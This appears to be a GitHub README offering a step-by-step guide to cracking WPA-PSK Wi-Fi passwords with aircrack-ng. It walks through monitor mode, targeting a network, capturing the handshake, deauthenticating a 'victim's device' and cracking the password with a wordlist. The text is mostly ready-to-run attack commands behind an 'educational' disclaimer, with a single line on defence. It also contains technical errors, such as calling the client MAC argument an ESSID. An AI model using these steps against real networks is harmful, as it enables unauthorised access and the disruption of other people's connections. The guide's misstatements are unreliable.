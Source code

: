 # Wi-Fi Network Hacking Guide (Educational)

When you enable Wi-Fi in public places, you'll encounter numerous networks that likely utilize WPA-PSK encryption. Although these networks are susceptible to hacking, it is crucial to emphasize that this guide is strictly for educational purposes. Engaging in these activities on networks without proper authorization is illegal. Having addressed this disclaimer, let's explore the underlying mechanisms, the practical execution, and measures to safeguard yourself against such vulnerabilities.

## Introduction

When you connect to a network from a wireless device, a `handshake` is sent from the device to the router. This handshake contains the encrypted password.

While it's not possible to reverse the encrypted password, you can use a technique called a word list attack. A word list is a huge text file containing thousands of passwords. By comparing the encrypted handshake password with the passwords in the word list, you can determine the real password.

## Requirements
For this guide, to perform Wi-Fi network hacking, you'll need:
- Computer running `Linux` distribution;
- Computer with a network card that supports `monitor mode`;
- Install the package `Aircrack-ng` with the command `sudo apt install aircrack-ng`;

## Procedure
### 1 - Determine the Network Interface
Identify the wireless network interfaces, which usually start with w (e.g., wlp3s0).
<br>This information will be needed later.
<br>Open a terminal and type:

```
ip a
```

### 2 - Enable Monitor Mode
Use the airmon-ng tool to switch your network card to monitor mode.
<br>It will break your internet connection temporarily.
<br>Enter the command:

```
airmon-ng start <wireless interface>
```

Example: `airmon-ng start wlp3s0`

### 3 - Verify Monitor Mode
The wireless interface should be displayed as `<interface>mon` (e.g., wlp3s0mon).
<br>If not, it means your network card doesn't support monitor mode, and you'll need the external network card mentioned earlier.
<br>Run the command in a terminal to check if the network card's mode has changed to monitor.

```
iwconfig
```

### 4 - Scan for Networks
Use airodump-ng to view the networks around you.
<br>This command will display a list of nearby networks along with their BSSIDs (network MAC addresses) and channels.
<br>Enter the command:

```
airodump-ng <wireless interface>mon
```

Example: `airodump-ng wlp3s0mon`


### 5 - Target Network
Identify the BSSID and channel of the network you wish to attack.

### 6 - Capture the Handshake
This command will start capturing the handshake from devices connected to the target network.
<br>In a new terminal window, enter the command:

```
airodump-ng --bssid <BSSID> --channel <channel> --write <filename> <wireless interface>mon
```
- `<BSSID>` - target network's BSSID;
- `<channel>` - target network's channel;
- `<filename>` - desired name for the captured handshake file;
- `<wireless interface>mon` - name of your wireless interface in monitor mode;

### 7 - Deauthentication Attack
Now we need to to send deauthentication packets to the victim's device, forcing it to disconnect and reconnect to the network.
<br>Use the command:

```
aireplay-ng -0 10 -a <BSSID> -c <client ESSID> <wireless interface>mon
```

- `<BSSID>` - target network's BSSID;
- `<client ESSID>` - ESSID (name) of the device you want to deauthenticate (e.g., the victim's device);
- `<wireless interface>mon` - name of your wireless interface in monitor mode;

### 8 - Capture the Handshake
Observe the terminal running `airodump-ng` (step 6) and wait for a device to reconnect.
<br>Once the handshake is captured, you can stop `airodump-ng` by pressing `Ctrl+C`.
<br>The captured handshake will be saved in the specified filename.

### 9 - Word List Attack
Kali Linux comes with pre-installed word lists located in the directory `/usr/share/wordlists`.
<br>If your not on Kali, you can download a word list from here.
<br>Now lets attempt to match the captured handshake with passwords from the word list.
<br>Use the command:

```
aircrack-ng -w <wordlist> <filename>
```

- `<wordlist>` - path to the desired word list file (e.g., /usr/share/wordlists/rockyou.txt);
- `<filename>` - name of the captured handshake file;

### 10 - Cracked!
Note: After performing these steps, your internet connection may still be interrupted. To fix this, you can either restart your computer or execute the command airmon-ng stop <monitor interface> followed by systemctl restart network* to restart the network services.

## Protecting Yourself
While you cannot prevent the authentication process, you can protect against word list attacks by choosing a long and random password that is unlikely to be found in any word list.

## Conclusion
In this guide, we explored the process of Wi-Fi network hacking for educational purposes only. It is essential to respect privacy and legality when using these techniques. We discussed capturing handshakes, performing deauthentication attacks, and cracking passwords using word lists. Remember to always use this knowledge responsibly and protect yourself by setting strong passwords for your Wi-Fi networks.

If you found this guide helpful, feel free to leave a star and thank you for reading!

## GLOSSARY
## DISCLAIMER
